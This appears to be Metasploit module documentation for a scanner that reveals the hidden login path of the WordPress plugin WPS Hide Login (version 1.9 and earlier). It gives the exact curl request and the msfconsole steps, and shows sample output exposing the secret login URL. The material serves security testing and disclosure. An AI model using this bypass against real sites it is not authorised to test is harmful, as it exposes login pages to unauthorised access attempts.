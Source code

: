 ## Vulnerable Application

This module exploits a bypass issue with WPS Hide Login version <= 1.9.  WPS Hide Login
is used to make a new secret path to the login page, however a `GET` request to
`/wp-admin/options.php` with a `referer` will reveal the hidden path.

This emulates the following `curl` command: `curl --referer "something" -sIXGET http://<ip>/wp-admin/options.php`

## Verification Steps

1. Install the vulnerable plugin and set a new login page
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/wp_wps_hide_login_revealer`
1. Do: `set rhosts [ip]`
1. Do: `run`
1. You should find the hidden login page

## Options

## Scenarios

### WPS Hide Login version 1.9.0 on Wordpress 5.4.8 running on Ubuntu 20.04

```
resource (hide_login.rb)> use auxiliary/scanner/http/wp_wps_hide_login_revealer
resource (hide_login.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (hide_login.rb)> set verbose true
verbose => true
resource (hide_login.rb)> run
[*] Checking /wp-content/plugins/wps-hide-login/readme.txt
[*] Found version 1.9 in the plugin
[+] 1.1.1.1 - Vulnerable version of wps_hide_login detected
[*] 1.1.1.1 - Determining login page
[+] Login Page: http://1.1.1.1/supersecret/?redirect_to=%2Fwp-admin%2FilOYZU&reauth=1
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
